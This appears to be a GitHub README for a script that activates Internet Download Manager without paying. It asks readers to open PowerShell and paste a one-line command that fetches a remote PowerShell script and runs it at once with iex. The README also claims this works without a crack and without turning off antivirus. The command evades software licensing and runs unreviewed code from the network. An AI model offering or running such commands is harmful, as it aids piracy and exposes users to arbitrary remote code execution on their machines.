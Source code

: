 # IDM-ACTIVATION-SCRIPT
This contains a simple script that will activate the internet downloader (IDM) without downloading a cracker or turning off the anti-virus you have.
To activate your IDM follow the steps below:
STEPS:
  1. Visit the official page of IDM, download and install IDM on your PC.
  2. After installation, open PowerShell (not cmd)
  3. Paste this command and hit enter (do not include " ")
  
  "   iwr -useb https://raw.githubusercontent.com/lstprjct/IDM-Activation-Script/main/IAS.ps1 | iex  "

  4. Wait until the process completes and your done.
  5. Don't forget to subscribe to my YouTube channel for more videos.
